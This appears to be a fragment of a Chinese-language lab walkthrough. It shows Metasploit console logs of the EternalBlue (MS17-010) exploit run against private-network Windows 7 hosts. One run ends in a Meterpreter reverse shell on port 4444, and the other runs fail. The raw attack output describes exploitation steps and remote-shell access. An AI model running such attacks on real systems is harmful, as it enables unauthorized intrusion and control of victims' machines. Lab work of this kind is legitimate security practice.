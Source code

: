 ```sh
[+] 192.168.126.131:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.126.131:445 - Sending egg to corrupted connection.
[*] 192.168.126.131:445 - Triggering free of corrupted buffer.
[*] Sending stage (201798 bytes) to 192.168.126.131
[+] 192.168.126.131:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.126.131:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.126.131:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 3 opened (192.168.126.128:4444 -> 192.168.126.131:49159) at 2024-05-08 05:57:20 -0400
```

##### 攻击失败

```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.126.128:4444 
[*] 192.168.2.214:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.2.214:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.2.214:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.2.214:445 - The target is vulnerable.
[*] 192.168.2.214:445 - Connecting to target for exploitation.
[+] 192.168.2.214:445 - Connection established for exploitation.
[+] 192.168.2.214:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.2.214:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.2.214:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.2.214:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service 
[*] 192.168.2.214:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1          
[+] 192.168.2.214:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.2.214:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.2.214:445 - Sending all but last fragment of exploit packet
[*] 192.168.2.214:445 - Starting non-paged pool grooming
[+] 192.168.2.214:445 - Sending SMBv2 buffers
[+] 192.168.2.214:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.2.214:445 - Sending final SMBv2 buffers.
[*] 192.168.2.214:445 - Sending last fragment of exploit packet!
[*] 192.168.2.214:445 - Receiving response from exploit packet
[+] 192.168.2.214:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.2.214:445 - Sending egg to corrupted connection.
[*] 192.168.2.214:445 - Triggering free of corrupted buffer.
[-] 192.168.2.214:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.2.214:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.2.214:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

> 攻击失败

```sh
[*] Started reverse TCP handler on 192.168.126.128:4444 
[*] 192.168.2.214:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[-] 192.168.2.214:445     - Host does NOT appear vulnerable.
[*] 192.168.2.214:445     - Scanned 1 of 1 hosts (100% complete)
[-] 192.168.2.214:445 - The target is not vulnerable.
[*] Exploit completed, but no session was created.
```
